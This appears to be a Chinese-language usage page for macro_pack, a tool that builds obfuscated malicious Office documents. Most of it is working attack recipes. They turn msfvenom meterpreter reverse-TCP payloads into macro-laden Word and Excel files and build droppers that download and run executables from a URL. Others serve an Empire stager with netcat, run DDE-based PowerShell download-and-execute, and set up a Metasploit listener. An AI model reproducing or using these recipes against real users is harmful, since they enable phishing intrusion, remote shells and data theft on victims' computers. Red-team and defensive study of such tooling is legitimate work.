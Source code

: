 #### 运行Windows二进制
```
从https://github.com/sevagas/macro_pack/releases/获取最新的二进制文件
在安装了正版Microsoft Office的PC上下载二进制文件。
打开控制台，CD到二进制目录并调用二进制文件，就这么简单
```

#### 从源码安装
```
git clone https://github.com/sevagas/macro_pack.git
cd macro_pack
pip3 install -r requirements.txt
```

#### macro_pack community
- 混淆由msfvenom生成的vba文件
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G meterobf.vba
```
- 混淆Empire stager vba文件并生成MS Word文档
```
macro_pack.exe -f empire.vba -o -G myDoc.docm
```
- 生成一个包含混淆dropper的MS Excel文件
```
echo "https://myurl.url/payload.exe" "dropped.exe" |  macro_pack.exe -o -t DROPPER -G "drop.xlsm" 
```
- 创建一个包含混淆的VBA reverse meterpreter payload的 word 97 文档
```
msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G \\REMOTE-PC\Share\meter.doc   
```
- 使用DROPPER_PS模板下载并执行Empire Launcher stager，而不使用powershell.exe
```
# 1 Generate a fiez containing Empire lauchcher
# 2 Make that file available on web server, ex with netcat:
{ echo -ne "HTTP/1.0 200 OK\r\n\r\n"; cat empire_stager.cmd; } | nc -l -p 6666 -q1
# 3 Use macro\_pack  to generate DROPPER_PS payload in Excel file
echo http://10.5.5.12:6543/empire_stager.cmd | macro_pack.exe -o -t DROPPER_PS -G join_the_empire.xls
# 4 When executed on target, the macro will download PowerShdll, run it with rundll32, and download and execute stager
```
- 通过动态数据交换（DDE）攻击执行calc.exe
```
echo calc.exe | macro_pack.exe --dde -G calc.xslx
```
- 使用动态数据交换（DDE）攻击，通过PowerShell下载并执行文件
```
# 1 Change the target file URL in resources\community\ps_dl_exec.cmd
# 2 Embed download execute cmd in document
python macro_pack.py --dde -f ..\resources\community\ps_dl_exec.cmd -G DDE.doc
```
- 生成混淆的Meterpreter reverse TCP VBS文件并运行它
```
# 1 Generate obfuscated VBS based on meterpreter template
echo <ip> <port> | macro_pack.exe -t METERPRETER -o -G meter.vbs
# 2 On attacker machine Setup meterpreter listener
Open msfconsole:
use exploit/multi/handler
set LHOST 0.0.0.0
set PAYLOAD windows/meterpreter/reverse_tcp
set AutoRunScript post/windows/manage/migrate
set EXITFUNC thread
set ExitOnSession false
set EnableUnicodeEncoding true
```